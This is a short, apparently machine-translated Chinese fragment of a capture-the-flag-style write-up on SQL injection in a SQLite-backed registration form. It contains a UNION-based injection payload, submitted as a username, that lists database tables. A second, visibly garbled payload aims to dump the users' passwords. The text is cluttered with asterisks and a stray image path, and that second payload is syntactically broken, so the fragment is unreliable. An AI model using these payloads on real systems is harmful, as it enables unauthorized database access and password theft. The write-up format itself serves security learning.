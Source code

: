*****![](img/6c28d6617242c5d77607bfa1d302bdfe.png)*****

*****有了这些知识，这就很容易被利用。例如，要从数据库中获取所有的表，我们可以创建一个名为:*****

```
*****' union select 1,group_concat(tbl_name) from sqlite_master where type='table' and tbl_name not like 'sqlite_%''*****
```

*****要在密码中找到该标志，请注册一个用户名:*****

*****' union select 1，group _ concat(password from users '*****

*****使用 Sqlmap 自动化开发*****
